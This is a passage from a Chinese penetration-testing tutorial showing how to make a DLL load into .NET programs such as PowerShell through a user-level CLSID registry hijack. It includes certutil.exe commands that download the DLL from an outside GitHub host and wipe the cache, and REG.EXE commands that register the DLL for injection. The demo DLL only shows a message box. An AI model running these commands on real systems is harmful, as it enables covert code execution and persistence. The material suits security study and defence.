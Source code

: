 可设置为任意数值，只要不和系统常用CLSID冲突就好

### 2、测试dll

使用弹框dll，下载地址：

https://raw.githubusercontent.com/3gstudent/test/master/msg.dll

dll开发过程可参考：

https://3gstudent.github.io/3gstudent.github.io/Use-Office-to-maintain-persistence/

可在cmd下实现直接下载，代码如下：

```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll delete
```

操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-28/2-1.png)

**注：**

delete是为了清除下载文件的缓存

更多关于使用certutil.exe下载文件的利用细节可参考文章：

《渗透测试中的certutil.exe》

### 3、、操作注册表

注册表路径：`HKEY_CURRENT_USER\Software\Classes\CLSID\`

新建子项`{11111111-1111-1111-1111-111111111111}`，同步骤1 cmd输入的CLSID对应
新建子项`InProcServer32`
新建键值`REG_SZ ThreadingModel：Apartment`
默认路径改为msg.dll的路径

修改后的注册表如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-28/2-2.png)

对应cmd代码如下：

```
SET KEY=HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1111-1111-1111-111111111111}\InProcServer32
REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\msg.dll" /F
REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F
```

### 4、在当前cmd启动.net程序

例如powershell.exe，启动时加载msg.dll，弹框

操作如下图
